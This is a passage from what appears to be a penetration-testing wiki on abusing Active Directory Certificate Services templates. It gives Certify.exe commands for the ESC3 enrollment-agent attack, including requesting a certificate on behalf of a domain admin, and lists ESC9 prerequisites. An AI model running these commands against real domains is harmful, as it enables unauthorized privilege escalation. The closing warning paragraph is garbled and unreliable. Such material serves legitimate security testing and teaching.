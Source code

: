 > [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.


=== Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find /vulnerable

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /vulnerable /currentuser
```

Once a vulnerable template is found, a request shall be made to obtain a certificate specifying the Certificate Request Agent EKU.

```powershell
Certify.exe request /ca:'domain\ca' /template:"Vulnerable template"
```

Then, the issued certificate can be used to request another certificate permitting `Client Authentication` on behalf of another user.

```powershell
Certify.exe request /ca:'domain\ca' /template:"User" /onbehalfon:DOMAIN\Admin /enrollcert:enrollmentAgentCert.pfx /enrollcertpw:Passw0rd!
```

:::


### (ESC9) No security extension 

To understand this privilege escalation, it is recommended to know how certificate mapping is performed. It is presented in [this section](certificate-templates.md#certificate-mapping).

If the certificate attribute `msPKI-Enrollment-Flag` contains the flag `CT_FLAG_NO_SECURITY_EXTENSION`, the `szOID_NTDS_CA_SECURITY_EXT` extension will not be embedded, meaning that even with `StrongCertificateBindingEnforcement` set to `1`, the mapping will be performed similarly as a value of `0` in the registry key.

Here are the requirements to perform ESC9:

* `StrongCertificateBindingEnforcement` not set to `2` (default: `1`) or `CertificateMappingMethods` contains `UPN` flag (`0x4`)
* The template contains the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value
* The template specifies client authentication
* `GenericWrite` right against any account A to compromise any account B

> [!WARNING]
> Acate can then be used with to obtain a TGT and authenticat the time of writting (06/08/2022), there is no solution as a low privileged user to read the `StrongCertificateBindingEnforcement` or the `CertificateMappingMethods` values. It is worth to try the attack hopping the keys are misconfigured.
